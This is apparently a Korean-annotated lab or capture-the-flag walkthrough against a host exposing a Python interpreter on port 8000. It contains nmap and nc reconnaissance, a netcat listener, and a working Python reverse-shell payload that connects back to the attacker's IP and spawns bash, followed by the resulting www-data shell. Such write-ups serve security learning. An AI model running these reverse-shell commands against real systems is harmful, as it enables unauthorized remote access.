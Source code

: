 10.10.249.130

# nmap -Pn -sC -sV -T4 10.10.249.130 -oN nmap.txt --open -sS -> 22, 8000

┌──(root㉿docker-desktop)-[/]
└─# nmap -Pn -sC -sV -T4 10.10.249.130 -oN nmap.txt --open -sS
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-20 13:56 UTC
Stats: 0:00:43 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 13:57 (0:00:39 remaining)
Nmap scan report for 10.10.249.130
Host is up (0.28s latency).
Not shown: 920 closed tcp ports (reset), 78 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 06:8f:ef:d3:a9:61:16:08:10:85:0b:ed:be:bc:53:6f (RSA)
| 256 ae:dc:5f:87:48:a1:5e:82:fd:72:26:6d:1f:14:ff:be (ECDSA)
|_ 256 63:b9:b8:e5:45:7c:27:20:7e:5e:fa:cd:d5:7a:c8:6c (ED25519)
8000/tcp open http-alt SimpleHTTP/0.6 Python/3.11.2
|\_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop:
| source code string cannot contain null bytes
| FourOhFourRequest, LPDString, SIPOptions:
| invalid syntax (<string>, line 1)
| GetRequest:
| name 'GET' is not defined
| HTTPOptions, RTSPRequest:
| name 'OPTIONS' is not defined
| Help:
|_ name 'HELP' is not defined
|\_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|\_http-title: Site doesn't have a title (text/html; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.95%I=7%D=7/20%Time=687CF5A3%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20defin
SF:ed\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\x20
SF:null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<strin
SF:g>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cannot\
SF:x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\x20
SF:is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x20n
SF:ot\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20string\x
SF:20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"sour
SF:ce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Help,1
SF:B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invalid\x
SF:20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\x20
SF:syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20cod
SF:e\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,"so
SF:urce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Java
SF:RMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\
SF:n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20
SF:bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x20n
SF:ull\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.67 seconds

# http 10.10.249.130/ -> 페이지 탐색 불가

┌──(root㉿docker-desktop)-[/]
└─# http 10.10.249.130/

http: error: ConnectionError: HTTPConnectionPool(host='10.10.249.130', port=80): Max retries exceeded with url: / (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7ffffd8d6f90>: Failed to establish a new connection: [Errno 111] Connection refused')) while doing a GET request to URL: http://10.10.249.130/

# nc 10.10.249.130 8000

┌──(root㉿docker-desktop)-[/]
└─# nc 10.10.249.130 8000
ls
name 'ls' is not defined

# 명령어 실행 되는 것 확인

(root㉿docker-desktop)-[/]
└─# nc 10.10.249.130 8000
print(1)
name 'ᅦprint' is not defined
^[[D^[[A^[[A
invalid syntax (<string>, line 1)
print(1+1)
2
whoami
name 'whoami' is not defined
id

# 10.10.249.130:8000에서 Python 인터프리터가 실행 중

ls, whoami 등은 쉘 명령어라서 작동하지 않음
print(1+1) → 2가 나온 것으로 Python 환경임을 확인

# nc -lvnp 4444 -> 공격자인 내 머신에서 대기하기

(root㉿docker-desktop)-[/]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.136.212] from (UNKNOWN) [10.10.249.130] 40290
bash: /root/.bashrc: Permission denied
www-data@ip-10-10-234-59:~$ ls  
ㅣls

Command 'ㅣls' not found, did you mean:

command 'hls' from deb hfsutils (3.2.6-14)
command 'ils' from deb sleuthkit (4.6.7-1build1)
command 'bls' from deb bacula-sd (9.4.2-2ubuntu5)
command 'ols' from deb speech-tools (1:2.5.0-8build1)
command 'als' from deb atool (0.39.0-10)
command 'ls' from deb coreutils (8.30-3ubuntu2)
command 'jls' from deb sleuthkit (4.6.7-1build1)
command 'fls' from deb sleuthkit (4.6.7-1build1)

Try: apt install <deb name>

www-data@ip-10-10-234-59:~$

# 공격대상 컴퓨터 (파이썬 인터프리터) https://www.revshells.com/ 검색해서 실행

```bash
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.8.136.212", 4445))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/bash", "-i"])
```

# www-data 권한으로 시작

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data

# ls 는 안 되는데 path 지정하면 잘 됨

ls -al
ls: cannot open directory '.': Permission denied
$ ls -al /
ls -al /
total 2035784
drwxr-xr-x 18 root root 4096 Jul 21 14:39 .
drwxr-xr-x 18 root root 4096 Jul 21 14:39 ..
lrwxrwxrwx 1 root root 7 Feb 23 2022 bin -> usr/bin
drwxr-xr-x 4 root root 4096 Apr 27 06:25 boot
drwxr-xr-x 17 root root 4000 Jul 21 14:39 dev
drwxr-xr-x 106 root root 4096 Jul 21 14:39 etc
drwxr-xr-x 4 root root 4096 Jul 21 14:39 home
lrwxrwxrwx 1 root root 7 Feb 23 2022 lib -> usr/lib
lrwxrwxrwx 1 root root 9 Feb 23 2022 lib32 -> usr/lib32
lrwxrwxrwx 1 root root 9 Feb 23 2022 lib64 -> usr/lib64
lrwxrwxrwx 1 root root 10 Feb 23 2022 libx32 -> usr/libx32
drwx------ 2 root root 16384 Jun 2 2023 lost+found
drwxr-xr-x 2 root root 4096 Jun 2 2023 media
drwxr-xr-x 2 root root 4096 Feb 23 2022 mnt
drwxr-xr-x 3 root root 4096 Jun 21 2023 opt
dr-xr-xr-x 174 root root 0 Jul 21 14:39 proc
drwxrwx--- 7 root root 4096 Apr 15 2024 root
drwxr-xr-x 26 root root 780 Jul 21 14:39 run
lrwxrwxrwx 1 root root 8 Feb 23 2022 sbin -> usr/sbin
drwxr-xr-x 2 root root 4096 Feb 23 2022 srv
-rw------- 1 root root 2084569088 Jun 2 2023 swap.img
dr-xr-xr-x 13 root root 0 Jul 21 14:39 sys
drwxrwxrwt 12 root root 4096 Jul 21 14:40 tmp
drwxr-xr-x 14 root root 4096 Feb 23 2022 usr
drwxr-xr-x 12 root root 4096 Dec 22 2023 var
